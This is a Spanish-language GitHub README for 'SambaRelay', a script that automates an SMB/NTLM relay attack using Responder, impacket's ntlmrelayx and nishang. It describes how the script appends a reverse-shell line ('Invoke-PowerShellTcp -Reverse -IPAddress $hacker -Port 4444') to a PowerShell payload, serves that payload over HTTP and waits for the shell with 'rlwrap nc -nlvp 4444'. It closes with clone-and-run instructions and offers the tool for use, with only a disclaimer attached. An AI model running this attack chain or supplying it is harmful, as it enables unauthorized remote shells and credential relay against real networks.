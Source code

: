 
# SambaRelay

Canal de youtube  https://youtube.com/c/Anonimo501

Grupo en Telegram https://t.me/Pen7esting

## Samba Relay

Este script es creado para fines educativos o para hacer auditorias profesionales de pentesting a nivel empresarial, no me hago responsable del mal uso de dicho  script, este script automatiza la modificacion del archivo Responder.conf en los valores SMB = Off y HTTP = Off, locual lo deja a la escucha, tambien descarga automaticamente https://github.com/SecureAuthCorp/impacket y descarga https://github.com/samratashok/nishang en nishang ingresa a nishang/Shells/ copia el archivo y lo renombra cp Invoke-PowerShellTcp.ps1 PS.ps1, al archivo PS.ps1 se le añade una linea al final que es la siguiente  Invoke-PowerShellTcp -Reverse -IPAddress $hacker -Port 4444, se deja a la escucha un server http automaticamente con el siguiente comando python -m SimpleHTTPServer, dejamos nc a la escucha rlwrap nc -nlvp 4444, no es necesario instalar los requerimientos de impacket o nishang ya que el script lo hace automaticamente, tambien crea un archivo llamado targets.txt dentro de /impacket/examples el cual contiene la  ip victima y por ultimo se ejecutal ntlmrelayx.py para lograr el acceso.

El script se ejecuto sobre ParrotOS 4.10

![Screenshot_1](https://user-images.githubusercontent.com/67207446/119040557-2eaae600-b97b-11eb-8cf6-0ac4d2581527.png)




git clone https://github.com/Anonimo501/SambaRelay.git

cd SambaRelay

chmod +x SMB_Relay.sh

./SMB_Relay.sh


# Referencias

SecureAuth Corporation.https://github.com/SecureAuthCorp/impacket
SamratAshok.https://github.com/samratashok/nishang
